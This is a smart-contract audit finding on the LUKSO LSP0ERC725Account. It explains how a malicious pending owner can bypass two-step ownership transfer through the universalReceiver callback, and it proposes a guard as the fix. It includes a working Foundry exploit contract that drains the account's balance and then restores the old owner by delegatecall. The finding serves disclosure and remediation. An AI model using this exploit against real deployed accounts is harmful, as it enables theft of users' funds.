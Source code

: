 ## Tags

- bug
- 2 (Med Risk)
- high quality report
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-02

# [Two-step ownership transfer process in `LSP0ERC725AccountCore` can be bypassed](https://github.com/code-423n4/2023-06-lukso-findings/issues/123) 

# Lines of code

https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP0ERC725Account/LSP0ERC725AccountCore.sol#L560-L580


# Vulnerability details

## Bug Description

To transfer ownership of the `LSP0ERC725AccountCore` contract, the owner has to call `transferOwnership()` to nominate a pending owner. Afterwards, the pending owner must call `acceptOwnership()` to become the new owner.

When called by the owner, `transferOwnership()` executes the following logic:

[LSP0ERC725AccountCore.sol#L560-L580](https://github.com/code-423n4/2023-06-lukso/blob/main/contracts/LSP0ERC725Account/LSP0ERC725AccountCore.sol#L560-L580)

```solidity
        address currentOwner = owner();

        // If the caller is the owner perform transferOwnership directly
        if (msg.sender == currentOwner) {
            // set the pending owner
            LSP14Ownable2Step._transferOwnership(pendingNewOwner);
            emit OwnershipTransferStarted(currentOwner, pendingNewOwner);

            // notify the pending owner through LSP1
            pendingNewOwner.tryNotifyUniversalReceiver(
                _TYPEID_LSP0_OwnershipTransferStarted,
                ""
            );

            // Require that the owner didn't change after the LSP1 Call
            // (Pending owner didn't automate the acceptOwnership call through LSP1)
            require(
                currentOwner == owner(),
                "LSP14: newOwner MUST accept ownership in a separate transaction"
            );
        } else {
```

The `currentOwner == owner()` check ensures that `pendingNewOwner` did not call `acceptOwnership()` in the `universalReceiver()` callback. However, a malicious contract can bypass this check by doing the following in its `universalReceiver()` function:

* Call `acceptOwnership()` to gain ownership of the LSP0 account.
* Do whatever he wants, such as transferring the account's entire LYX balance to himself. 
* Call `execute()` to perform a delegate call that does either of the following:
  * Delegate call into a contract that self-destructs, which will destroy the account permanently.
  * Otherwise, use delegate call to overwrite `_owner` to the previous owner.
  
This defeats the entire purpose of a two-step ownership transfer, which should ensure that the LSP0 account cannot be lost in a single call if the owner accidentally calls `transferOwnership()` with the wrong address.

## Impact

Should `transferOwnership()` be called with the wrong address, the address could potentially bypass the two-step ownership transfer process to destroy the LSP0 account in a single transaction.

## Proof of Concept

The following Foundry test demonstrates how an attacker can drain the LYX balance of an LSP0 account in a single transaction when set to the pending owner in `transferOwnership()`:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../../contracts/LSP0ERC725Account/LSP0ERC725Account.sol";

contract Implementation {
    // _owner is at slot 0 for LSP0ERC725Account
    address _owner; 

    function setOwner(address newOwner) external {
        _owner = newOwner;
    }
}

contract MaliciousReceiver { 
    LSP0ERC725Account account;
    bool universalReceiverDisabled;
    
    constructor(LSP0ERC725Account _account) {
        account = _account;
    }

    function universalReceiver(bytes32, bytes calldata) external returns (bytes memory) {
        // Disable universalReceiver() 
        universalReceiverDisabled = true;

        // Cache owner for later use
        address owner = account.owner();

        // Call acceptOwnership() to become the owner
        account.acceptOwnership();

        // Transfer all LYX balance to this contract
        account.execute(
            0, // OPERATION_0_CALL
            address(this),
            10 ether,
            ""
        );

        // Overwrite _owner with the previous owner using delegatecall
        Implementation implementation = new Implementation();
        account.execute(
            4, // OPERATION_4_DELEGATECALL
            address(implementation),
            0,
            abi.encodeWithSelector(Implementation.setOwner.selector, owner)
        );

        return "";
    }

    function supportsInterface(bytes4) external view returns (bool) {
        return !universalReceiverDisabled;
    }

    receive() payable external {}
}

contract TwoStepOwnership_POC is Test {
    LSP0ERC725Account account;

    function setUp() public {
        // Deploy LSP0 account with address(this) as owner and give it some LYX
        account = new LSP0ERC725Account(address(this));
        deal(address(account), 10 ether);
    }

    function testCanDrainContractInTransferOwnership() public {
        // Attacker deploys malicious receiver contract
        MaliciousReceiver maliciousReceiver = new MaliciousReceiver(account);

        // Victim calls transferOwnership() for malicious receiver
        account.transferOwnership(address(maliciousReceiver));

        // All LYX in the account has been drained
        assertEq(address(account).balance, 0);
        assertEq(address(maliciousReceiver).balance, 10 ether);
    }
}
```

## Recommended Mitigation

Add a `inTransferOwnership` state variable, which ensures that `acceptOwnership()` cannot be called while `transferOwnership()` is in execution, similar to a reentrancy guard:

```solidity
function transferOwnership(
    address pendingNewOwner
) public virtual override(LSP14Ownable2Step, OwnableUnset) {
    inTransferOwnership = true;

    // Some code here...

    inTransferOwnership = false;
}

function acceptOwnership() public virtual override {
    if (inTransferOwnership) revert CannotAcceptOwnershipDuringTransfer();

    // Some code here...
}
```


## Assessed type

call/delegatecall